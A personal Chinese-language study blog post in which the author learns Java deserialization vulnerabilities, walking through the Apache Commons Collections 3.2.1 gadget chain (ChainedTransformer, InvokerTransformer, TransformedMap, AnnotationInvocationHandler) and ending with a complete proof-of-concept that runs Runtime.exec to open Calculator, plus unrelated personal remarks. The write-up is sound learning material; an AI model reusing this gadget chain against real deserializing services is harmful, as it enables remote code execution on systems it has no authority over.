

有时候世界真的是个圈，皂滑弄人
前段时间我在写一个逆向辅助工具，1.0版本已经完成了，把自己的手动工作大部分变成了自动化，写完1.0之后，我停下来了一段时间，主要是思考下一版本需要做什么，以及代码结构，我不想写了一大堆之后又要推倒重构
我不是说这两天开始系统的学习Java开发嘛，接触了一些很好用的IDEA插件，比如Lombok，简直就是Java Bean神器，用注解的方式来大量节约set/get代码，贼棒，刚好就可以用上了
Java反序列化相关漏洞学习推荐一篇文章《深入理解Java反序列化漏洞》，写的相当好，很多大佬技术能弄的很透彻，但是写起文章来我是真的不敢恭维，能把技术研究透，又能有条理的描述清楚细节，是真的厉害
这篇文章里提到了一篇更原始的文章《What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.》
这里说一句题外话：我之所以保持写安全笔记纯粹是为了个人，我想看看自己是不是真正的掌握了这几天学习的技术，能把一个技术点描述到让自己满意，我觉得就是初步掌握了
Java序列化是指将对象转换为字节流的形式，Java反序列化是指将字节流转换为对象的形式
比如将对象存储在本地文件里，或者进行网络传输，此时就可以使用Java序列化，当需要读取对象数据或者网络另一方收到数据的时候，此时进行Java反序列化，将字节流转换为Java对象，再进行下一步对象操作
简单来看个例子，定义一个ClassSerial类，先对其进行序列化，并写入文件"SerialBug"，完成后进行文本读取，同时反序列化为ClassSerial类型，此过程中我们自定义了方法readObject()，除了正常执行之外，我们额外弹出一个计算器，在反序列化过程中，会自动调用这个方法，第三方开发者可以在这里对其进行做一些自定义的操作，可以理解为Android应用的Application里的方法attachBaseContext()，如果我们重写这个方法可以在onCreate()之前做一些更早的操作
public class SerialBug {public static void main(String[] args) throws Exception {// 序列化ClassSerial classSerial = new ClassSerial();ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(new File("SerialBug")));objectOutputStream.writeObject(classSerial);objectOutputStream.close();// 反序列化ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(new File("SerialBug")));ClassSerial classSerialAfterSerialized = (ClassSerial) objectInputStream.readObject();objectInputStream.close();}}class ClassSerial implements Serializable {private int fieldInt;private String fieldString;private void readObject(ObjectInputStream objectInputStream) throws Exception {objectInputStream.defaultReadObject();Runtime.getRuntime().exec("open /System/Applications/Calculator.app");}}
运行起来可以看到弹出了计算器，这好像是我这几个月以来弹的最轻松的一个计算器

序列化数据头部特征很有趣：aced 0005
➜ SerialBug xxd SerialBug00000000: aced 0005 7372 000b 436c 6173 7353 6572 ....sr..ClassSer00000010: 6961 6cac 22a6 e515 61b5 0f02 0002 4900 ial."...a.....I.00000020: 0866 6965 6c64 496e 744c 000b 6669 656c .fieldIntL..fiel00000030: 6453 7472 696e 6774 0012 4c6a 6176 612f dStringt..Ljava/00000040: 6c61 6e67 2f53 7472 696e 673b 7870 0000 lang/String;xp..00000050: 0000 70 ..p
由于我也只是刚接触，所以不敢对这部分有过多的结论性描述，我目前对于Java反序列化漏洞的理解是：在反序列化用户可控数据的过程中，自定义方法readObject()存在某些代码导致可以进行逻辑上的利用
历史上的Java反序列化漏洞非常多，很多文章也描述的很棒，我这里就不过多的去重复写了，分享我对于Apache Commons Collections库反序列化漏洞的理解
大佬的文章提到了Apache-Commons-Collections库版本
root@us-l-breens:/opt/apache-tomcat-8.0.28# grep -Rl InvokerTransformer ../webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
存在漏洞的二进制文件可以从这里下载
很多关于Java反序列化的文章里会写利用ChainedTransformer来执行代码，但是这个特性在代码层面是如何表现的呢？
通过逆向，我们可以看到接口Transformer定义了一个方法transform()
public interface Transformer {/*** Transforms the input object (leaving it unchanged) into some output object.** @param input the object to be transformed, should be left unchanged* @return a transformed object* @throws ClassCastException (runtime) if the input is the wrong class* @throws IllegalArgumentException (runtime) if the input is invalid* @throws FunctorException (runtime) if the transform cannot be completed*/public Object transform(Object input);}
POC代码中一共使用到三个实现类
- ChainedTransformer
- ConstantTransformer
- InvokerTransformer
关键的一段构造
Transformer[] transformers = new Transformer[] {new ConstantTransformer(Runtime.class),new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };Transformer transformerChain = new ChainedTransformer(transformers);
实现类ChainedTransformer，对内部的Transformer一个个进行调用方法transform()
public class ChainedTransformer implements Transformer, Serializable {...public Object transform(Object object) {for (int i = 0; i < iTransformers.length; i++) {object = iTransformers[i].transform(object);}return object;}}
实现类ConstantTransformer
public class ConstantTransformer implements Transformer, Serializable {...public ConstantTransformer(Object constantToReturn) {super();iConstant = constantToReturn;}public Object transform(Object input) {return iConstant;}}
实现类InvokerTransformer，通过反射对我们传入的参数进行方法调用操作，方法名methodName，参数类型paramTypes，参数args
public class InvokerTransformer implements Transformer, Serializable {...public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {super();iMethodName = methodName;iParamTypes = paramTypes;iArgs = args;}public Object transform(Object input) {if (input == null) {return null;}try {Class cls = input.getClass();Method method = cls.getMethod(iMethodName, iParamTypes);return method.invoke(input, iArgs);} catch (NoSuchMethodException ex) {...}}}
抛开触发过程，我们结合三个实现类来走一遍执行流程，方法ChainedTransformer.transform()会循环调用Transformer数组里的元素，这里的长度是4，也就是会跑4次
public Object transform(Object object) {for (int i = 0; i < iTransformers.length; i++) {object = iTransformers[i].transform(object);}return object;}
第一次执行，返回的是对象Runtime，传入的数据是什么无须在意，因为它不处理传入的数据
new ConstantTransformer(Runtime.class)public Object transform(Object input) {return iConstant;}
第一次执行结束后，变量object为class java.lang.Runtime

第二次执行，因为传入的是Object类型，所以需要先使用getMethod()来获取方法getRuntime()
new InvokerTransformer("getMethod",new Class[] { String.class, Class[].class },new Object[] { "getRuntime", new Class[0] })Object object = Runtime.class;Class cls = object.getClass();Method method = cls.getMethod("getMethod", new Class[] { String.class, Class[].class });method.invoke(object, new Object[] { "getRuntime", new Class[0] });
第二次执行结束后，变量object为public static java.lang.Runtime java.lang.Runtime.getRuntime()

第三次执行，我们现在拥有了方法getRuntime()，自然是使用invoke()执行
new InvokerTransformer("invoke",new Class[] { Object.class, Object[].class },new Object[] { null, new Object[0] })Class cls = object.getClass();Method method = cls.getMethod("invoke", new Class[] { Object.class, Object[].class });method.invoke(object, new Object[] { null, new Object[0] });
第三次执行结束后，变量object为对象Runtime

第四次执行，我们调用对象Runtime的方法exec()，此处发生代码执行
new InvokerTransformer("exec",new Class[] { String.class },new Object[] { "open /System/Applications/Calculator.app" })Class cls = object.getClass();Method method = cls.getMethod("exec", new Class[] { String.class });return method.invoke(object, new Object[] { "open /System/Applications/Calculator.app" });
所以代码执行这一套就分析到这里，另一个关键的问题是，我们如何触发这一套流程呢？
这里涉及到了一个TransformedMap类，这个类是对Java数据结构Map的扩展，当TransformedMap内元素发生变化时，会触发自定义的Transformer
本地测试如下
public class SerialBug {public static void main(String[] args) throws Exception {Transformer[] transformers = new Transformer[] {new ConstantTransformer(Runtime.class),new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };Transformer transformerChain = new ChainedTransformer(transformers);Map map = new HashMap();map.put("KEY", "VALUE");Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);for (Map.Entry<String, Object> entry : transformedMap.entrySet()) {entry.setValue("NOVALUE");}}}
弹出计算器

它触发第一个Transformer的过程如下，首先修改TransformedMap的键值

调用checkSetValue()

触发了Transformer，于是开始执行我们定义的ChainedTransformer

这里是自己去写代码触发，如果是利用Apache Commons Collections库里现有的代码来触发呢？
我们看到上面使用的是修改Map的键值，在Apache Commons Collections里，存在一个类sun.reflect.annotation.AnnotationInvocationHandler，它实现了readObject()，而且调用了setValue()，刚刚好！
class AnnotationInvocationHandler implements InvocationHandler, Serializable {private void readObject(java.io.ObjectInputStream s)throws java.io.IOException, ClassNotFoundException {s.defaultReadObject();// Check to make sure that types have not evolved incompatiblyAnnotationType annotationType = null;try {annotationType = AnnotationType.getInstance(type);} catch(IllegalArgumentException e) {// Class is no longer an annotation type; all bets are offreturn;}Map<String, Class<?>> memberTypes = annotationType.memberTypes();for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {String name = memberValue.getKey();Class<?> memberType = memberTypes.get(name);if (memberType != null) { // i.e. member still existsObject value = memberValue.getValue();if (!(memberType.isInstance(value) ||value instanceof ExceptionProxy)) {memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));}}}}}
最终的测试Poc
public class SerialBug {public static void main(String[] args) throws Exception {// 序列化ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(new File("SerialBug")));objectOutputStream.writeObject(get());objectOutputStream.flush();objectOutputStream.close();// 反序列化ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(new File("SerialBug")));objectInputStream.readObject();objectInputStream.close();}public static Object get() throws NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException {Transformer[] transformers = new Transformer[] {new ConstantTransformer(Runtime.class),new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };Transformer transformerChain = new ChainedTransformer(transformers);Map map = new HashMap();map.put("KEY", "VALUE");Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);ctor.setAccessible(true);Object instance = ctor.newInstance(Retention.class, transformedMap);return instance;}}
以上分析仅仅是拾人牙慧，有很多理解不到位的地方，有兴趣学习的同学可以移步以上提到的文章链接，原汁原味，更加详细
学习Java反序列化漏洞的时候，搜到一个Java安全相关的GitHub项目，先在这里做个记录
然后我依旧在学习的是scz的若干篇文章《Java RMI入门 1-5》，向小四学习！
- http://scz.617.cn/network/202002221000.txt
- http://scz.617.cn/network/202003081810.txt
- http://scz.617.cn/network/202003121717.txt
- http://scz.617.cn/network/202003191728.txt
- http://scz.617.cn/network/202003241127.txt
我多佩服小四这里就不过多的描述了，我在很多篇文章里都曾表达过我对大佬的崇拜，希望有生之年能追赶上大佬的脚步
我挺感谢我认识的几个师傅，会客观的从旁观者角度给我一些职业发展上的建议，比如让我考虑去研究型的安全团队，其实我有时候也会想，如果我毕业后待在一个研究型的安全团队安心待三年到五年，身边都是每天研究漏洞到凌晨的大佬，现在会不会有很棒的产出呢？
我是一个乐观的人，虽说现在搞业务安全，但无论在哪，都能调整好学习进度，只要热爱技术，一点不影响我每天都在好好学习呀:)
从某些小渠道听到我司开始大面积优化了，大家说录音笔啥牌子好
说来不怕大家笑话，我弄了本《机械制图》，想学习四足机器人，自学一下打打基础
老了之后，锯锯木头，磨磨砂纸，安安静静，一坐一下午
周末愉快:)